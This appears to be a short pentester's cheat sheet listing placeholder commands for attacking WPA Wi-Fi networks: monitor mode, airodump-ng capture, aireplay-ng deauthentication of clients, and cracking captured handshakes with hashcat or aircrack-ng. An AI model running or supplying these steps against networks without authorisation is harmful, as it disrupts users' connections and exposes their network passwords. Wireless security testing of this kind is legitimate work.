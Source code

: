 # WIFI
`monitormode <INTERFACE> <MODE>`

`airodump-ng <INTERFACE>`
`airodump-ng -c <CHANNEL> --bssid <AP_MAC> -w <OUTPUT> <INTERFACE>`
`aireplay-ng -0 <AMOUNT_PACKETS> -a <AP_MAC> -c <TARGET_MAC> <INTERFACE>`
~/Desktop/scripts/hashcat-utils/src/cap2hccapx.bin <CAP_FILE> <HCCAPX_FILE>  
`hashcat -m 2500 <CAP_FILE> <WORDLIST> --force --potfile-disable`
`aircrack-ng <CAP_FILE> -w <WORDLIST>`